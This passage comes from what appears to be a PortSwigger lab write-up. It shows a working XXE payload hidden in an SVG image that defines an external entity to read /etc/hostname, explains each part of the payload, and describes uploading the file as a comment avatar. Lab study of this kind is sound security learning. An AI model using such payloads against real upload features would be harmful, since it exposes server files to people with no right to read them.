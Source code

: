 `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>` 

To break that down a little bit `<?xml version="1.0" standalone="yes"?>` specifies the XML version as 1.0 and indicates that it's a standalone. `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>` Is the Document Type Declaration (DTD) which defines an external entity named `xxe` which is defined to pull its content from `file///etc/hostname`. `<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">` This part of the payload that begins the SVG element. It specifies all of the attributes related to an image such as the height, width, and XML namespaces.  Then `<text font-size="16" x="0" y="16">&xxe;</text>` is a text element with a font size and position specified that reference the content of the `xxe` entity defined earlier. Essentially putting the contents of `/etc/hostname` into the image that will be displayed as my avatar.


![lab4 script](/docs/assets/images/portswigger/xxe/xxe20.png)

With my malicious image file made I just need to navigate over to the comment section of a post and leave a comment that has the image file uploaded as my avatar. 
